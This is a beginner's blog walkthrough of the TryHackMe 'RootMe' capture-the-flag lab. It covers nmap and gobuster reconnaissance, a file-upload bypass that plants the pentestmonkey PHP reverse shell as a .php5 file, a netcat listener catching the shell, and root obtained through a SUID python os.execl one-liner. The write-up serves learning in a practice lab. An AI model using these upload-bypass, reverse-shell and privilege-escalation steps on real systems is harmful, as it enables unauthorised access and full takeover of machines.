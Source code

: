 ```yaml
---
title: TryHackMe RootMe Walkthrough
published: 2021-04-02
lastUpdated: 2022-11-06
type: post
url: /tryhackme-rootme/
image: "https://p146.p4.n0.cdn.getcloudapp.com/items/5zuPx46m/9393a1b2-5bae-4db3-a53e-d87c254adaa4.jpg?v=6f2c17b6b25f92419e0c317a9e3655c6"
categories:
    - Cyber
tags:
    - TryHackMe
    - Capture The Flag
    - Walkthrough
    - 100DaysOfHacking
---
```


I’m still on the Complete Beginner learning path from TryHackMe, so this is my first venture outside into their library of CTF’s.

This is a beginner ‘easy’ game, their description reads *a CTF for beginners, can you root me?* If you’re unaware, root means top-level access, like super admin or master-of-everything.

When you gain root-level access, you own that machine, so install, delete, copy or whatever else you want, it’s yours.

Let’s get started on RootMe

## Reconnaissance

First up, let’s *scan the machine, how many ports are open?*

```shell
$ nmap -A -p- $ip # CTRL+C - Took too long.

$ nmap -T4 -A $ip

22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))

```

So, second `nmap` scan found `2` ports open, `ssh` &amp; `http`. Great, so that tells me it’s a web server, a non-secure one at that, and it’s able to have remote connection.

Next, *what version of Apache is running?*

Our scan has already pulled that information, `2.4.29`. I’m thinking maybe I could look this verion up and find known exploit.

*What service is running on port 22?*

Easy again, got that from scan, `ssh.`

*Find directories on the web server using the GoBuster tool. Hint: `gobuster dir -u <ip> -w WORDLIST_PATH`.*

Hm, this is a new tool, let’s first `man` it and see if I have it on `kali`.

```shell
$ man gobuster # Not found.

$ sudo apt install gobuster

$ gobuster --help

$ apt-cache show gobuster

Directory/file & DNS busting tool written in Go Gobuster is a tool used to brute-force URIs including directories and files as well as DNS subdomains.

```

So it’s `ls` but for enurmeration? Cool.

After reading [kali tools](https://tools.kali.org/web-applications/gobuster), I’ve got a wordlist to use, let’s go!

```shell
$ gobuster dir -u 10.10.173.20 -w /usr/share/wordlists/dirb/common.txt

/.hta
/.htpasswd
/.htaccess
/css
/index.php
/js
/panel # upload page
/server-status
/uploads

```

While that’s running, I remembered I can go to `<ip>` to view frontend of the website… Nothing there, just a game landing page.

Now the scan has finished, let’s try each page of the website via going `<ip>/<page>`. Normal stuff accept the `/panel` page. Strange file upload and gives a spanish error msg, a bit odd, I’ll remember this for later.

…or right now, w*hat is the hidden directory?* `/panel/`

## Getting A Shell

Okay, now it’s about shell access, i.e. stepping into the machine and gaining basic level access.

Let’s read the question, *find a form to upload and get a **reverse shell**, and find the flag.* Hint: *Search for “**file upload bypass**” and “**PHP reverse shell**“.*

Cool, first time using a reverse shell, still unsure what/how of this, but let’s learn by searching first recommendation.

File upload bypass, means, due to poor validation (secuirty) allows uploaded files to run by user or server.

Searching `PHP reverse shell` shows what looks like a [popular github page](https://github.com/pentestmonkey/php-reverse-shell). Let’s `git clone` it and take look.

```shell
$ mkrdir TryHackMe-rootme

$ git clone <https://github.com/pentestmonkey/php-reverse-shell.git> TryHackMe-rootme

$ nano php-reverse-shell.php

```

I’m taking the time to read the program (usually I don’t). It’s recommending to go to [pentestmonkey.net](http://pentestmonkey.net/) for help, looks like a great resource!

So `netcat` needs to be running to listen and ‘catch’ the reverse shell. Cool. Let’s setup `nc`, edit and upload the file

```shell
$ip = '10.10.10.10';  // CHANGE THIS
$port = 4444;       // CHANGE THIS

$ sudo nc -vlnp 4444

```

After tinkering around, not sure why, but the file extension of the reverse shell file had to be changed from `.php` to `.php5` … my guess is this tells the website it’s PHP version 5 which it can work with? Not 100% sure.

I started cheating by the way from this [video](https://youtu.be/eDGI1RCkp8E). Just to get past this step.

Once the reverse shell was uploaded, I went to `<ip>/uploads/` to execute the file and `nc` picked it up, wow! My heart actually dropped a bit, like this is remote access from an uploaded file. WTH!

So I had to cheat a bit more on this one, annoying as I could’ve figured it out if I had more patience.

```shell
$ find / -type f -name user.txt 2>/dev/null

/var/ww/user.txt

$ cat /var/ww/user.txt

THM{*************************}

```

## Privilege Escalation

*Now that we have a shell, let’s escalate our privileges to root.*

Cool. Let’s go.

*Search for files with SUID permission, which file is weird?*

```shell
$ find / -user root -perm /4000 2>/dev/null

```

This is hard, I’m not sure what I’m looking for.

I used the input field from TryHackMe `/***/***/******` and just guessed which directory’s based on characters, `/usr/bin/python`.

Okay, next, *find a form to escalate your privileges, search for gtfobins.*

Found [gtfobins](https://gtfobins.github.io/), searched python and looked for SUID.

…time passes.

Look, I’ll be honest, I’ve got root and I have no idea what made it happen. I don’t understand python so it seems like magic right now. Anyway, here are the steps I took (or followed):

```shell
$ /bin/bash

python -c 'import pty;pty.spawn ("/bin/bash")'

./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'

```

Now I’ve got the `#` let’s search for the missing file.

```shell
$ find / -type f -name root.txt 2>/dev/null

/root/root.txt

$ cat /root/root.txt

THM{*************************}

```

Well, that’s the last flag, we did it! Thanks to [Yesspider](https://youtu.be/eDGI1RCkp8E) for their walkthrough video.

Looking back this is a good beginner game, even if it felt really hard and lead me to cheat, I use the term ‘cheating’ loosely as it’s still learning. If I get so stuck I want to give up, it’s better to look at a walkthrough than stop altogether.

I’m getting comfortable running some `nmap` which is great, and then sifting through information to find what I’m after.

I learnt about `gobuster`, a tool I want to use more! It felt great using a reverse shell and understanding the concept even if I didn’t understand 100% of what I was following along with. Something about setting up `nc` to listen and catch information felt amazing!

I loved used `find` one of the most basic commands which still havent clicked for me. Lastly using Python, now to be honest all of that went right over my head. But I’m using it, being more familiar, so it’s a start!

Hope you enjoyed this CTF Walkthrough.

If you have feedback, please send me a message via [Twitter](https://twitter.com/mrashleyball).

This is Day 6 of [\#100DaysOfHacking](https://mrash.co/100daysofhacking/), subscribe to the [newsletter](https://go.mrash.co/newsletter) to see the journey!

Happy Hacking.